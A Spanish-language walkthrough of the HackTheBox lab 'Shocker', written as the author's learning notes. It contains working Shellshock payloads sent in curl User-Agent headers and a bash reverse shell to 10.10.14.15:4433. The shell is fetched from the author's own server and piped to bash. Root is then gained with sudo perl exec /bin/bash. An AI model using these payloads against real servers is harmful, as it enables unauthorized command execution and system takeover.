 ```yaml
---
layout      : post
title       : "HackTheBox - Shocker"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108banner.png
category    : [ htb ]
tags        : [ linux, shellshock, sudo, perl ]
---
```

Máquina Linux nivel fácil, nos dará un **shock** (?) al encontrarnos la vulnerabilidad **Shellshock** (muy linda) y lograr ejecutar comandos en el sistema. Después jugando con los permisos de usuario podremos obtener una sesión como **root** explotando el binario **Perl**.

![108shockerHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108shockerHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [mrb3n](https://www.hackthebox.eu/profile/2984).

HOLAAAAAAAAAAAA e.e

Bueno, será una ruta sencilla y acogedora :3 Nos encontraremos un servicio web el cual tiene el directorio `cgi-bin` y dentro un archivo `user.sh`, indagando veremos que podemos relacionar lo encontrado con una vulnerabilidad llamada **Shellshock**, jugando con ella lograremos ejecutar comandos en el sistema como el usuario **shelly**, lo usaremos para entablarnos una reverse Shell.

Estando dentro y validando los permisos que tenemos como **shelly** ante otros usuarios (`sudo -l`), veremos que podemos ejecutar el binario `/usr/bin/perl` como el usuario **root**, con la ayuda del repositorio [GTFOBins](https://gtfobins.github.io/) (e internet :P) lograremos obtener una (dos, tres, las que quieras) Shell como **root** en la máquina (:

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

¿Khe vamo hace'? 🤔

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Realizamos nuestro escaneo de puertos para saber que servicios está corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.56 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535                      |
| --open     | Solo los puertos que están abiertos          |
| -v         | Permite ver en consola lo que va encontrando |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/Writeups/master/HTB/Magic/images/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: initScan
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.80 scan initiated Thu Apr 22 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.56
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 10.10.10.56 ()    Status: Up
   4   │ Host: 10.10.10.56 ()    Ports: 80/open/tcp//http///, 2222/open/tcp//EtherNetIP-1///
   5   │ # Nmap done at Thu Apr 22 25:25:25 2021 -- 1 IP address (1 host up) scanned in 163.27 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Listos, tenemos:

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://www.techopedia.com/definition/15709/port-80)**                         |
| 2222   | Por ahora no lo sabemos, pero podemos pensar en que pueda estar relacionado con **SSH** |

Ahora hagamos un escaneo de scripts y versiones, así tenemos profundizamos en cada puerto:

```bash
❭ nmap -p80,2222 -sC -sV 10.10.10.56 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: portScan
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.80 scan initiated Thu Apr 22 25:25:25 2021 as: nmap -p80,2222 -sC -sV -oN portScan 10.10.10.56
   2   │ Nmap scan report for 10.10.10.56
   3   │ Host is up (0.19s latency).
   4   │ 
   5   │ PORT     STATE SERVICE VERSION
   6   │ 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
   7   │ |_http-server-header: Apache/2.4.18 (Ubuntu)
   8   │ |_http-title: Site doesn't have a title (text/html).
   9   │ 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  10   │ | ssh-hostkey: 
  11   │ |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  12   │ |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  13   │ |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  14   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  15   │ 
  16   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  17   │ # Nmap done at Thu Apr 22 25:25:25 2021 -- 1 IP address (1 host up) scanned in 17.76 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache httpd 2.4.18 |
| 2222   | [SSH](https://blog.desdelinux.net/configurar-ssh-por-otro-puerto-y-no-por-el-22/) | (Confirmamos) OpenSSH 7.2p2 |

¡Listo, a darle pues!

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

![108page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108page80.png)

Jmm, nada interesante, validando el código fuente tampoco vemos nada, hagamos fuzzing a ver si hay algo escondido a la vista:

```bash
❭ dirsearch.py -u http://10.10.10.56/ -q
403 -  297B  - http://10.10.10.56/.ht_wsr.txt
403 -  300B  - http://10.10.10.56/.htaccess.bak1
403 -  300B  - http://10.10.10.56/.htaccess.orig
403 -  302B  - http://10.10.10.56/.htaccess.sample
403 -  300B  - http://10.10.10.56/.htaccess.save
403 -  298B  - http://10.10.10.56/.htaccessBAK
403 -  298B  - http://10.10.10.56/.htaccessOLD
403 -  301B  - http://10.10.10.56/.htaccess_extra 
403 -  299B  - http://10.10.10.56/.htaccessOLD2
403 -  300B  - http://10.10.10.56/.htaccess_orig
403 -  298B  - http://10.10.10.56/.htaccess_sc
403 -  290B  - http://10.10.10.56/.htm
403 -  291B  - http://10.10.10.56/.html
403 -  300B  - http://10.10.10.56/.htpasswd_test
403 -  296B  - http://10.10.10.56/.htpasswds
403 -  297B  - http://10.10.10.56/.httr-oauth
403 -  294B  - http://10.10.10.56/cgi-bin/
200 -  137B  - http://10.10.10.56/index.html
403 -  299B  - http://10.10.10.56/server-status
```

Nada relevante a la vista, pero profundizando en lo único que tenemos, vemos el directorio `cgi-bin/`, entendamos de que se trata:

> **CGI** (Common Gateway Interface) es un método por el cual un servidor web puede interactuar con programas externos de generación de contenido, a ellos nos referimos comúnmente como programas CGI o scripts CGI. Es el método más común y sencillo de mostrar contenido dinámico en su sitio web. [Apache - CGI](https://httpd.apache.org/docs/trunk/es/howto/cgi.html).

Entonces el servidor envía las solicitudes del cliente a un programa externo, el programa en cuestión puede estar escrito en cualquier lenguaje que sea soportado pro el servidor, que por lo general son lenguajes de scripting.

> El **CGI** es utilizado comúnmente para contadores, bases de datos, motores de búsqueda, formulários, generadores de email automático, foros de discusión, chats, comercio electrónico, rotadores y mapas de imágenes, juegos en línea y otros. Esta tecnología tiene la ventaja de correr en el servidor cuando el usuario lo solicita por lo que es dependiente del servidor y no de la computadora del usuario. [CGI Intro](http://www.maestrosdelweb.com/cgiintro/).

Bien, hablan de scripts y programas alojados por el recurso `cgi`, así que podemos probar un fuzz sobre el recurso...

Pero no encontramos nada, si recordamos nos hablaban de lenguajes de scripting, entonces podemos probar a crearnos un archivo con extensiones de lenguajes y volver a validar el fuzzeo:

> [Encontrar URL del cgi-bin](https://www.neoguias.com/como-saber-la-url-de-cgi-bin/) (vemos algunos lenguajes para tener en cuenta).

```bash
❭ cat extensions.txt 
───────┬──────────────────────────────────────
       │ File: extensions.txt
───────┼──────────────────────────────────────
   1   │ php
   2   │ sh
   3   │ bash
   4   │ cgi
   5   │ pl
   6   │ c
   7   │ ccp
   8   │ py
───────┴──────────────────────────────────────
```

Y ahora con `wfuzz`:

```bash
❭ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/common.txt -w extensions.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

Donde el primer **FUZZ** hace referencia a cada linea del archivo `common.txt` y el segundo **FUZZ (FUZ2Z)** a cada linea del archivo `extensions.txt`:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
Total requests: 37264

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
...
...
...
000034130:   200        7 L      17 W       118 Ch      "user - sh"
```

Perfecto, tenemos un archivo llamado `user.sh`, si lo visitamos desde la web nos lo descarga, su contenido es simplemente:

```bash
❭ cat user.sh 
───────┬─────────────────────────────────────────────────────────────────────
       │ File: user.sh
───────┼─────────────────────────────────────────────────────────────────────
   1   │ Content-Type: text/plain
   2   │ 
   3   │ Just an uptime test script
   4   │ 
   5   │  12:36:04 up  1:35,  0 users,  load average: 0.00, 0.01, 0.00
───────┴─────────────────────────────────────────────────────────────────────
```

Jmmm, pero ¿qué podemos hacer con esto? Haciendo una búsqueda sencilla en Google como "**cgi-bin exploit**" obtenemos un montón de respuestas hablando de una vulnerabilidad llamada **Shellshock**, profundizando...

#### Shellshock

Me gusto esta intro de [securityhacklabs](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit) para explicar **Apache** y **CGI**, así que me la robo :P

> Apache es un servidor web multiplataforma de código abierto desarrollado por la Apache Software Foundation. Es robusto con características tales como alojamiento virtual, esquemas de autenticación, SSL y TLS, mensajes de error personalizados y compatibilidad con múltiples lenguajes de programación. Apache también tiene un módulo llamado mod_cgi que maneja la ejecución de scripts de Common Gateway Interface (CGI). [Explotando Shellshock](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit).

Shellshock como su nombre nos spoilea, se basa en la Shell (en términos entendibles en la famosa **bash**), un intérprete que esta por lo general en todos los sistemas ***Unix**. Lo que hace la vulnerabilidad es aprovechar las variables de entorno para definir funciones y jugar a agregar comandos así la función ya se haya terminado de procesar :P

Pa leer: 

* [Shellshock, la grave vulnerabilidad en Bash](https://www.welivesecurity.com/la-es/2014/09/26/shellshock-grave-vulnerabilidad-bash/).
* [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271).
* [Shellshock - como explotarla en remoto](https://empresas.blogthinkbig.com/shellshock-como-se-podria-explotar-en/).
* [Exploit Bash Shellshock](https://nikhilh20.medium.com/exploit-bash-shellshock-part-1-ad1636acaf9e).

...

## Explotación [#](#explotacion) {#explotacion}

Entonces, podemos validar esta vulnerabilidad de manera sencilla mediante **cURL** probando cositas de [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-web/cgi):


```bash
❭ curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh
```

Y nos responde:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```

Podríamos pensar que no es vulnerable, pero leyendo más posts encontramos que si le agregamos más definiciones de `echo;` antes de lo que queremos ejecutar puede llegar a rular (servir):

* [Exploiting Shellshock (with extra **echo;**)](https://www.sevenlayers.com/index.php/125-exploiting-shellshock).

```bash
❭ curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh
```

Y responde:

```bash
VULNERABLE TO SHELLSHOCK

Content-Type: text/plain

Just an uptime test script

 13:25:00 up  2:23,  0 users,  load average: 0.00, 0.00, 0.00
```

Bien, probablemente tenemos ejecución de comandos, validemos el `id` del usuario que esté ejecutando el servicio web:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/id' http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Perfectooooooooooooooooooooo 😯, confirmado. Ahora simplemente intentemos entablar una Reverse Shell ;)

Validamos que exista **cURL** en la máquina:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/which curl' http://10.10.10.56/cgi-bin/user.sh
/usr/bin/curl
```

Nos creamos un archivo que tenga los comandos que queramos ejecutar, para que cuando hagamos la petición desde la máquina a él le pasemos el binario `bash` al final y así interprete el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.15/4433 0>&1
```

Levantamos un server web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y desde el Shellshock le indicamos:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/curl http://10.10.14.15:8000/rev.sh | /bin/bash' http://10.10.10.56/cgi-bin/user.sh
```

Y obtenemos:

![108bash_shellshock_shelly_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108bash_shellshock_shelly_revsh.png)

Una sesión como **shelly** :) Hagamos tratamiento de la TTY rápidamente (hay varias formas, a mí me gusta de la siguiente), así evitamos perder la consola si damos **CTRL + C** y además podemos movernos cómodamente entre comandos:

1. En la Shell escribimos: `script /dev/null -c bash`.
2. Ahora hacemos `CTRL + Z`, lo que enviara la Shell a un estado "en pausa" por así decirlo y nos llevara a nuestra terminal normalita.
3. Escribimos: `stty raw -echo; fg`.
4. Escribimos: `reset`.
5. Escribimos: `xterm`.
6. **Ya tendríamos nuestra Shell interactiva, pero arreglemos unos valores y el tamaño de la terminal:**
7. Escribimos: `export TERM=xterm`.
8. Escribimos: `export SHELL=bash`.
9. Abrimos una nueva terminal de tamaño completo y escribimos `stty -a`, tomamos esos valores y en la Shell de la máquina escribimos: `stty rows <rows> columns <columns>`, validamos que el tamaño esté bien ejecutando `nano`. (Podrías validar el `nano` también antes de hacer esto, así vez el cambio).

Sigamos...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si vemos que [permisos](https://unix.stackexchange.com/questions/596542/what-is-the-use-of-sudo-l-command) tiene **shelly** para ejecutar comandos en el sistema como otros usuarios encontramos:

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Puede ejecutar el binario `/usr/bin/perl` como el usuario **root** sin necesidad de ingresar contraseña, esto mediante [sudo](https://www.linuxtotal.com.mx/index.php?cont=info_admon_014).

Si vamos al [repo (GTFOBins)](https://gtfobins.github.io/gtfobins/perl/#sudo) que tiene un montoooooooon de info sobre como explotar vaaarios binarios, nos encontramos con:

![108google_gtfobins_sudoPerl](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108google_gtfobins_sudoPerl.png)

Bien, sencillamente pasándole esa instrucción deberíamos obtener una Shell como el usuario (en este caso) **root**, probemos:

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

![108bash_exploit_sudoPerl_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108bash_exploit_sudoPerl_rootSH.png)

Perfectoooo, ya seriamos **root** y podríamos hacer lo que quisiéramos

**(Claramente puedes jugar con [reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl) de** perl **y demás cositas para entablar una sesión como** root **, es cuestión de jugar y no quedarse solo con una opción.)**

Solo nos quedaría ver las flags...

![108flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108flags.png)

...

Super interesante la vulnerabilidad del **Shellshock**, ya siempre que encontremos un directorio `cgi-bin/` sabemos que debemos buscar posiblemente algo relacionado con ella y además aprendimos que puede parecer que ha fallado, pero simplemente deberíamos agregarle la sentencia `echo;` e ir probando :P

Y weno, como siempre muchísimas gracias por pasarse yyyyyyyyyyyyy a seguir rompiendo todo!! ❤️